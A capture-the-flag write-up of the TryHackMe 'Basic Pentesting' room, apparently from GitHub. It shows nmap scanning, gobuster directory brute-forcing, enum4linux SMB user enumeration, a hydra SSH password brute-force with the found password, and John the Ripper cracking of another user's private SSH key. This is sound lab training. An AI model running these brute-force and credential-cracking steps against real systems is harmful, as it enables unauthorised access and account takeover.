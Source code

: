 
## THM  Basic Pentesting 
In this writeup Today we're going to try to Solve a room in THM called Basic Pentesting
[Basic Pentesting Room](https://tryhackme.com/room/basicpentestingjt)
**The First Task :**

 - **Deploy the machine and connect to our network**

 **Second Task :**  

 - **Scan The Machine Service**

 

 - open nmap

 $ nmap -sC -sV -oN Result.txt 10.10.26.87

 ```bash
Nmap scan report for 10.10.26.87
Host is up (0.077s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 db:45:cb:be:4a:8b:71:f8:e9:31:42:ae:ff:f8:45:e4 (RSA)
|   256 09:b9:b9:1c:e0:bf:0e:1c:6f:7f:fe:8e:5f:20:1b:ce (ECDSA)
|_  256 a5:68:2b:22:5f:98:4a:62:21:3d:a2:e2:c5:a9:f7:c2 (ED25519)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h19m59s, deviation: 2h18m34s, median: -1s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2021-02-22T06:26:54-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-02-22T10:26:54
|_  start_date: N/A
 ```

 - ports  : 22  -  139 - 445
 - Now we need to take a look on the source code in main page
   10.10.26.87
	
 - sorce code : ![enter image description here](https://res.cloudinary.com/micro0x00/image/upload/v1614046984/source_kimyp5.png)
 - Now we will use [gobuster](https://github.com/OJ/gobuster) to search 
   for directories with brute-force
   

       gobuster dir -u http://10.10.26.87/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40
	```
	===============================================================
	Gobuster v3.1.0
	by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
	===============================================================
	[+] Url:            http://10.10.26.87
	[+] Threads:        40
	[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
	[+] Status codes:   200,204,301,302,307,401,403
	[+] User Agent:     gobuster/3.0.1
	[+] Timeout:        10s
	===============================================================
	2020/06/16 08:40:01 Starting gobuster
	===============================================================
	/development (Status: 301)
	```
	Now we go to [http://10.10.26.87/development/](http://10.10.26.87/development/)![enter image description here](https://res.cloudinary.com/micro0x00/image/upload/v1614047853/dev_bz7ebo.png)
	
	dev.txt:![enter image description here](https://res.cloudinary.com/micro0x00/image/upload/v1614048283/1_e5ukco.png)
	J.txt:![enter image description here](https://res.cloudinary.com/micro0x00/image/upload/v1614048378/j_xvyhf4.png)
	

## What is the username?

Now we will get user 
Try hack me give us a hint to get the user 
We have smbd open, that can give us a lot of information. We can use Enum4linux for that.

    enum4linux 10.10.26.87

![enter image description here](https://res.cloudinary.com/micro0x00/image/upload/v1614050311/Screenshot_2021-02-23_051756_ldpe6n.png)
after waiting for 5 minutes we get two user names

```
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User) <=======

```
users pop up, **jan** a.k.a. J and **kay** a.k.a. K (دماغ شغالة مش بتنام)

## What is the password ?

we will brute-force password by hydra

    └─$ hydra -l jan -P wordlist.txt ssh://10.10.26.87
```bash
login: jan & password: armando
```

## What service do you use to access the server(answer in abbreviation in all caps)?
**answer : ssh**

## What is the name of the other user you found(all lower case)?
**answer : kay**
Unfortunately when we try to ssh using the key file we see the key requires a password.

```
jan@basic2:/home/kay/.ssh$ ssh -i id_rsa kay@127.0.0.1
Enter passphrase for key 'id_rsa':

```

But luckily we can cat out this file and crack the key with  [JohnTheRipper](https://github.com/gwagstaff/CTF-Write-Ups/blob/master/TryHackMe/Basic_Webapp/9)

Using  `ssh2john.py id_rsa > john_id_rsa.hash`  we get a john-crackable file that we can start here.  `john --wordlist=/usr/share/wordlists/rockyou.txt john_id_rsa.hash`

But it quickly finds the password for the key file

```
[REDACTED]         (kay_id_rsa)

```

Trying again with the ssh file we easily log in with the file password and get the pass.bak!

Since there isnt a flag for this we can only think about the possible information we could do. Using an additional user we could see if it was part of any groups in  `/etc/groups`  or have programs that you can sudo  `Check with sudo -l`  . It truly depends on what is configured on a machine, but running something like LinPeas.sh will give you a good starting point!

## What is the final password you obtain?

That contains our final flags!

***************
